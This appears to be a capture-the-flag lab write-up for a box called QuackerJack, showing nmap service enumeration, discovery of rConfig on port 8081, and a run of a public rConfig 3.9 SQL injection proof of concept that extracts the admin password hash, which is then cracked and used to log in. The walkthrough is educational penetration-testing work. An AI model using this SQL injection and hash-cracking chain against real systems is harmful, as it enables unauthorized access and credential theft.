 ## First Enumerating with nmap

```shell
# Nmap 7.94SVN scan initiated Fri Mar  8 15:34:35 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 21,22,80,111,139,445,3306,8081 -Pn 192.168.185.57
Nmap scan report for 192.168.185.57
Host is up (0.20s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:ec:75:8d:86:9b:a3:0b:d3:b6:2f:64:04:f9:fd:25 (RSA)
|   256 b6:d2:fd:bb:08:9a:35:02:7b:33:e3:72:5d:dc:64:82 (ECDSA)
|_  256 08:95:d6:60:52:17:3d:03:e4:7d:90:fd:b2:ed:44:86 (ED25519)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Apache HTTP Server Test Page powered by CentOS
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
8081/tcp open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: 400 Bad Request
Service Info: Host: QUACKERJACK; OS: Unix

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-03-08T14:35:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h40m52s, deviation: 2h53m15s, median: 50s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: quackerjack
|   NetBIOS computer name: QUACKERJACK\x00
|   Domain name: \x00
|   FQDN: quackerjack
|_  System time: 2024-03-08T09:35:43-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  8 15:35:30 2024 -- 1 IP address (1 host up) scanned in 54.94 seconds

```


## Enumerating web

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0533edb6-ef6b-422d-ac5f-7c6b52afcf36)

a web server running on port `8081`, opening it on a browser, we got redirected to a login page. And we can see the web app is running `rconfig` service.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cf554c2d-771c-42ce-bb0e-e297665eeafc)

did some research and found out exploits for the `rconfig` service. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/QuakerJack]
└─$ python sqli.py https://192.168.185.57:8081
rconfig 3.9 - SQL Injection PoC
[+] Triggering the payloads on https://192.168.185.57:8081/commands.inc.php
[+] Extracting the current DB name :
rconfig
[+] Extracting 10 first users :
admin:1:dc40b85276a1f4d7cb35f154236aa1b2
Maybe no more information ?
Maybe no more information ?
Maybe no more information ?
Maybe no more information ?
[+] Extracting 10 first devices :
Maybe no more information ?
Maybe no more information ?
[*Snip*]
Maybe no more information ?
Done
```
ran the sqli exploit, we are able to extract the admin password md5 hash 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/50ffafc2-ba47-4eec-a994-0d9085378ec5)

cracked the password hash `abgrtyu`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6e8dc008-869e-4d1d-9281-fa857cdbad51)

logged in as `admin` success using the password cracked.

